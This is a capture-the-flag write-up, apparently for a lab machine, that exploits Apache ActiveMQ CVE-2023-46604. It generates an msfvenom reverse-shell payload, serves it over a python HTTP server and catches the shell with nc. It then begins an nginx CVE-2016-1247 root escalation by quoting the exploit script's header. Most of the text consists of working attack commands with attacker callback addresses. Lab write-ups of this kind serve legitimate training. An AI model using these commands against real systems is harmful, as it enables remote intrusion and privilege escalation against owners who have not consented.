 The machine is running a vulnerable version of activemq.
[SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ: Achieving a Reverse Shell Exploit for Apache ActiveMQ (CVE_2023-46604) (github.com)](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ?tab=readme-ov-file)
So we will use the above exploit.
First we need to modify the linux XML so it points back to our IP address.
Next we will start a python server on our host and then activate the exploit. we also need to generate a payload for our exploit.  #ActiveMQ-Exploit-Example
```sh
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT-8008 -f elf -o test.elf
python3 -m http.server 8001 #other terminal
nc -nlvp 8008 #other terminal
sudo apt install golang-go
go run main.go -i 10.129.228.117 -p 61616 -u http://10.10.14.5:8001/poc-linux.xml
```
Doing this we can get the flag. After of course, making the terminal not-shitty
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
# ROOT
#nginx-privilege-escalation-example
First on your host put the exploit found at:
[Exploit/Nginx/nginxed-root.sh at master · xl7dev/Exploit (github.com)](https://github.com/xl7dev/Exploit/blob/master/Nginx/nginxed-root.sh)
```sh
#!/bin/bash
#
# Nginx (Debian-based + Gentoo distros) - Root Privilege Escalation PoC Exploit
# nginxed-root.sh (ver. 1.1)
#
# CVE-2016-1247
#
# Discovered and coded by:
#
# Dawid Golunski
# dawid[at]legalhackers.com
#
# https://legalhackers.com
#
# Follow https://twitter.com/dawid_golunski for updates on this advisory.
#
# ---
# This PoC exploit allows local attackers on Debian-based and Gentoo systems 
# (Debian, Ubuntu, Gentoo etc.) to escalate their privileges from nginx web 
# server user (www-data) to root through unsafe error log handling.
#
# The exploit waits for Nginx server to be restarted or receive a USR1 signal.
# On Debian-based systems the USR1 signal is sent by logrotate (/etc/logrotate.d/nginx)
# script which is called daily by the cron.daily on default installations.
# The restart should take place at 6:25am which is when cron.daily executes.
# Attackers can therefore get a root shell automatically in 24h at most without any admin
# interaction just by letting the exploit run till 6:25am assuming that daily logrotation 
# has been configured. 
#
#
# Exploit usage:
# ./nginxed-root.sh path_to_nginx_error.log 
#
# To trigger logrotation for testing the exploit, you can run the following command:
#
# /usr/sbin/logrotate -vf /etc/logrotate.d/nginx
#
# See the full advisory for details at:
```